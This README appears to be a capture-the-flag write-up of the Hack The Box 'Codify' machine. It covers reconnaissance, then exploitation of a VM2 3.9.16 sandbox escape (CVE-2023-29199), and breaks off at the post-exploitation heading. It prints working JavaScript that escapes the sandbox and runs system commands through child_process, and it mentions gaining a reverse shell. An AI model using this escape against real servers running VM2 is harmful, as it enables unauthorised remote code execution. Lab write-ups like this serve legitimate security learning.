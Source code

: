 # HTB_Codify
In this repository you can find the Codify server write up and the exploit used to make the privilege escalation.
## Write up
First of all, before starting to explain how has been pwned Codify, I'm going to show you all the concepts that are used to vulnerate this server:
  - An NodeJs vulnerability is exploited to gain access as user CVS (user with minimum privileges)
  - An exaustive system enumeration is needed to detect an ''.db'' file.
  - Cracking hashes.
  - Abusing SUDOERS privilege.

### Reconnaissance phase

As usual, reconnaissance phase was the first phase executed due to the fact that a hacker needs to know as much information about his target as possible before starting to exploit posible vulnerabilities.

To do this, it is necessary to add a new line in the file ''/etc/hosts'', where the server IP is defined when a request is made to codify.htb:

[![hosts.png](https://i.postimg.cc/KvyMrT1X/hosts.png)](https://postimg.cc/7bmhqf1X)

Next, Nmap is used to scan all ports on the server. The tool output is as follows:

[![Nmap.png](https://i.postimg.cc/4ySGNV78/Nmap.png)](https://postimg.cc/XBdmsZgF)

As seen in the last image, three open ports were discovered, two HTTP ports and one SSH port. The SSH port had a fairly up-to-date version, so it would be difficult to exploit this service. On the other hand, there are two http ports, so it is worth scanning the technology that is working behind both ports:

[![Scann.png](https://i.postimg.cc/qqLN1mdv/Scann.png)](https://postimg.cc/4HY4dQdD)

Practically, the output of both ports is the same, so it is likely that the same website is being exposed on both ports. For this reason, the two websites are accessed and verified to be the same website.

Searching for information about the website, at "http://codify.htb/about" one discovers that it makes use of the NodeJs VM2 library. More specifically, it uses VM2 version 3.9.16:

[![VM2.png](https://i.postimg.cc/cHNCKZ0P/VM2.png)](https://postimg.cc/SXDk5BXG)

VM2 is a JavaScript library used to virtualize a sandbox on a server. In this case, this sandbox is used to run insecure code given by a user in a safe way. For this purpose, VM2 disables some global objects such as process, which allows to obtain information and control the main process.

In addition, developers restricted other modules such as 'child_process' and 'fs'. The child_process module allows to generate threads and thus execute commands on the server, and the fs module allows to interact directly with the file system.

### Exploitation phase

These restrictions can be avoided, as shown in **CVE-2023-29199**. The following code is used for this purpose:

```JavaScript
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
```

Why are restrictions avoided with this code? Because VM2 uses the transformer() module to preprocess and modify its source code, for example, they modify the way exceptions are raised to raise sanitized exceptions with handleException().

In short, these functions use Reflect.getPrototypeOf() to get the prototype of the error object. Thus, the Proxy object can be used to throw unsanitized exceptions containing malicious code.

In addiction, as the exceptions have the ability to access the main process, so they can return an object that is not possible in the sandbox thread, and the data input is not sanitized, the attacker can run his own commands on the server.

Thanks to all concepts explained, reverse shell was created to access the server, as shown in the following image:

[![explotacion.png](https://i.postimg.cc/x8XTZHJH/explotacion.png)](https://postimg.cc/wRdpy1kT)

### Post exploitation phase

